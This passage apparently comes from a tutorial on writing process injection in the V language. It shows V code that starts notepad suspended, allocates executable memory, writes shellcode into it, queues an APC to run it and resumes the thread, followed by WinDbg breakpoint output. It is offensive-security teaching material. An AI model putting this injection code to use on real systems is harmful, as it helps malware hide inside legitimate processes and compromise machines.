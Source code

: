 > [CreateProcessW](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)

The primary thread of the new process is created in a **suspended state**, and does not run until the `ResumeThread` function is called. Next, the malware needs to swap out the contents of the legitimate file with its malicious payload. This is done by unmapping the memory of the target process by calling either `ZwUnmapViewOfSection` or `NtUnmapViewOfSection`. These two **APIs** basically release all memory pointed to by a section. Now that the memory is unmapped, the loader performs `VirtualAllocEx` to allocate new memory for the malware, and uses `WriteProcessMemory` to write each of the malware's sections to the target **process space**. 

```c
C.WaitForSingleObject(proc_info.h_process, 2000)
hprocess := proc_info.h_process
hthread := proc_info.h_thread

// Allocation Memory and Write shellcode to the allocated buffer
// MEM_COMMIT 0x00001000 MEM_RESERVE 0x00002000
// PAGE_EXECUTE_READWRITE 0x40
h_alloc := C.VirtualAllocEx(hprocess, 0, usize(sizeof(shellcode)), 0x00001000|0x00002000, 0x40)

C.WriteProcessMemory(hprocess, h_alloc, shellcode.data, shellcode.len, 0)
```

> In **V**, the `size_t` was recently removed: [b2ecca3966168f20d95325cb5cc93b81e2c36256](https://github.com/vlang/v/commit/b2ecca3966168f20d95325cb5cc93b81e2c36256), so it's necessary change it to `usize` or in this case `u32`.

The **shellcode** is written to **notepad's process memory** and additionally, an [APC routine](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls), which now points to the **shellcode**, is declared. At the end, the malware resumes the suspended thread by calling `ResumeThread` to take the process **out of suspended state**.

```c
// Inject into the suspended thread
apc_routine := PTHREAD_START_ROUTINE(h_alloc)
C.QueueUserAPC(PAPCFUNC(apc_routine), hthread, 0)

// Resume the suspended thread
C.ResumeThread(hthread)
```

### Debugging

```c
0:000:x86> g
0:000:x86> lm
start    end        module name
00400000 0047d000   3_processHollowing T (export symbols)       C:\Users\IEUser\Documents\V\3_processHollowing.exe
74e90000 74f70000   KERNEL32   (pdb symbols)          c:\symbols\wkernel32.pdb\86DF9D2DE4C8EA80BFFB7DB0A30F7AC71\wkernel32.pdb

0:000:x86> x kernel32!CreateProcessW*
74ea8ba0          KERNEL32!CreateProcessWStub (_CreateProcessWStub@40)

0:000:x86> bp CreateProcessWStub
	
0:000:x86> x kernel32!VirtualAllocEx*
74ec5fb0          KERNEL32!VirtualAllocExStub (_VirtualAllocExStub@20)

0:000:x86> bp VirtualAllocExStub

0:000:x86> x kernel32!WriteProcessMemory*
74ec61c0          KERNEL32!WriteProcessMemoryStub (_WriteProcessMemoryStub@20)
0:000:x86> bp WriteProcessMemoryStub

```